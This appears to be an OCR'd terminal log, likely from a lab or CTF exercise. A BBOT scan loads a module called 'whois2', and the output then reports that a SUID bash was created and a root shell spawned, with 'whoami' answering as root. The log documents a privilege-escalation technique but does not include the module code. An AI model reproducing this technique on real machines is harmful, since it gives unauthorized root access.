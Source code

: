 ```bash
[INFO] Loaded 1/1 scan modules (whois2)
[INFO] Loaded 5/5 internal modules (aggregate,cloudcheck,dnsresolve,excavate,speculate)
[INFO] Loaded 5/5 output modules, (csv,json,python,stdout,txt)
[INFO] internal.excavate: Compiling 10 YARA rules
[INFO] internal.speculate: No portscanner enabled. Assuming open ports: 80, 443
[SUCC] Setup succeeded for 13/13 modules.
[SUCC] Scan ready. Press enter to execute anal_faramir

[WARN] No scan targets specified
[SUCC] Starting scan anal_faramir
[SCAN]              	anal_faramir (SCAN:ab93a7e313fee20912e0cd9869521760f8a78033)	TARGET	(in-scope, target)
[INFO] Finishing scan
[SCAN]              	anal_faramir (SCAN:ab93a7e313fee20912e0cd9869521760f8a78033)	TARGET	(in-scope)
[SUCC] Scan anal_faramir completed in 0 seconds with status FINISHED
[INFO] aggregate: +----------+------------+------------+
[INFO] aggregate: | Module   | Produced   | Consumed   |
[INFO] aggregate: +==========+============+============+
[INFO] aggregate: | None     | None       | None       |
[INFO] aggregate: +----------+------------+------------+
[INFO] output.csv: Saved CSV output to /root/.bbot/scans/anal_faramir/output.csv
[INFO] output.json: Saved JSON output to /root/.bbot/scans/anal_faramir/output.json
[INFO] output.txt: Saved TXT output to /root/.bbot/scans/anal_faramir/output.txt

[+] SUID bash created successfully!
[*] Spawning root shell...

bash-5.2# whoami
rootl
```
